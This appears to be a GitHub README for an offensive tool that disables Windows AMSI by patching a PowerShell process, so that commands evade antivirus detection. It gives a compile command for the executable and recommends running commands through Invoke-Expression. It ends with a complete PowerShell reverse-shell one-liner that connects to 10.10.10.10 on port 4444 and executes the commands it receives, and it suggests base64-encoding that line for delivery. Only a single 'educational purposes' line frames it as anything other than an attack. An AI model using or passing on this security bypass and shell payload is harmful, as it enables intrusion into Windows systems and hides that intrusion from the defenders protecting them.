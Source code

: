 # Bypassing AMSI and Command Execution in Executable

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important Notes

 - Before running any PowerShell command, make sure that the command is exclusively PowerShell compatible to avoid any errors or problems.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in a patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here's an example of a one-liner PowerShell script that can be encoded in base64 format for easy transfer and execution. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

````powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();```
